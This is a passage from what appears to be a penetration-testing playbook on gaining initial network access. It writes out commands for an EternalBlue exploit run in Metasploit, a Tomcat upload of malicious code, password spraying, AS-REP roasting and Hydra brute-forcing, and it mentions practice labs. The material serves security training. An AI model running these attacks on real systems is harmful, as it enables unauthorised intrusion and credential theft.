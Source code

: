 
# **🔑 Step 3: Initial Access & Exploitation (T1190, T1133, T1078)**
**Objective:** Gain an initial foothold in the network.

### **3.1 Exploiting Vulnerable Services**
- **Primary Method: Metasploit Framework (T1190)**
  (Just as an example but any public exploit can be placed in using your own ruby code.
  You are very much encouraged to explore outside of these public exploits when testing, writing your own to suite the vulnerability,)
 I digress, just dont be a skid and take ever vuln and exploit at face value, make your own, get out there, link it up with your agents etc etc.
This initial foothold section can get very fun and creative outside of just "step one open metasploit"...
FFS, just use your brain.
I recommend learning Go and C++ when it comes to writing exploits, DLLs, binaries of the sort. etc. 

  ```bash
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS <target>
  exploit
  ```
- **Alternative Methods:**
  - **Exploit with Searchsploit:**
    ```bash
    searchsploit <service>
    ```
  - **Manual RCE (Example: Tomcat Upload Exploit):**
    ```bash
    curl -X PUT -d '<malicious code>' http://<target>:8080/upload.jsp
    ```
    (Simply use a python.server for THM and HTB) but if you want to get creative use an actual repository or dedicated ingress tool transfer system you built from the ground up.  

### **3.2 Credential-Based Attacks**
- **Primary Method: Password Spraying (T1110.003)**
  ```bash
  crackmapexec smb <target> -u users.txt -p 'Password123'
  ```
- **Alternative Methods:**
  - **Kerberos AS-REP Roasting:**
    ```bash
    GetNPUsers.py -dc-ip <target> -request -no-pass -usersfile users.txt
    ```
  - **Using Hydra for Brute Force:**
    ```bash
    hydra -L users.txt -P passwords.txt ssh://<target>
    ```

---
